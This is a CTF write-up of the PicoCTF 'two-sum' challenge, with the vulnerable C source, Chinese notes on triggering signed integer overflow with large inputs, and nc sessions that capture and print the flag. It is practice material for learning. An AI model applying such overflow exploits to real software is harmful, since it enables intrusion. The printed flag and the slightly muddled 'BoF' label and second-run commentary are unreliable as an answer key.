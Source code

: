 ```yaml
---
title: PicoCTF - two-sum
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - two-sum
## Background
BoF
## Source code
:::spoiler
```cpp!
#include <stdio.h>
#include <stdlib.h>

static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}

int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
}

```
:::
## Recon
以初學的角度來說還蠻有趣的，看了一下source code，顯然是要滿足`addIntOvf()`的條件，也就是輸入的兩個數都大於零，但相加小於零，==OR==，兩個數都小於零但相加卻大於零，我是用第一種啦，比較直觀，首先輸入兩個超大的數，但還落在int正數的範圍，這樣就可以滿足一開始都大於零的條件，接著相加就會落在int負數的地方，這樣就滿足第三個條件，我有再另外輸入一次，這次是$9999999999999999+9999999999999999=19999999999999998$，這個就落在int負數的地方，解析出來的結果是`-545128450`
## Exploit
```bash
$ nc saturn.picoctf.net 50369
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
9999999999999999
9999999999999999
You entered 1874919423 and 1874919423
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_482d8fc4}
$ nc saturn.picoctf.net 58903
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
19999999999999998
19999999999999998
You entered -545128450 and -545128450
No overflow
```
